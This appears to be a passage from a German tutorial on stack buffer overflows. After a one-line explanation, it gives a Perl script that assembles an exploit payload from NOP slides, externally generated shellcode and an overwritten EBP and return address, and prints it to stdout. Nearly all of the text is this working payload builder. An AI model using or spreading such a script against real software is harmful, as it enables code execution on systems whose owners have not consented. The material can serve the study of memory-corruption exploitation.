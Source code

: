    Die Gesamtgröße des auf `stdout` ausgegebenen IV ist 8 Byte größer als die angegebene Pufferlänge (für EBP und EIP).
    
    ```perl
    #!/usr/bin/perl -w
    use strict;
     
    if (2 != scalar @ARGV) {
     die "./shellcode.pl  \n";
    }
     
    my $buffer_length = $ARGV[0];
    my $nop_length2 = $ARGV[1];
     
    binmode STDOUT;
     
    chomp (my $shellcode_length = \`./shellcode -l\`);
    my $shellcode = \`./shellcode\`;
    my $nop_length1 = $buffer_length - $shellcode_length;
    my $eip_recurrence=1;
     
    print STDERR "shellcode length: $shellcode_length bytes\n";
    print STDERR "buffer length:    $buffer_length bytes\n";
    print STDERR "nop sliding 1:    $nop_length1 bytes\n";
    print STDERR "nop sliding 2:    $nop_length2 bytes\n";
     
    my $eip = chr(0x20) . chr(0x75) . chr(0x04) . chr(0x08);
    my $ebp = $eip;
    
    my $nop_slide1 = (chr(0x90)x$nop_length1);
    my $nop_slide2 = (chr(0x90)x$nop_length2);
    my $iv = $nop_slide1 . $shellcode . $nop_slide2 . $ebp . ($eip x $eip_recurrence);
     
    print STDOUT $iv;
    ```
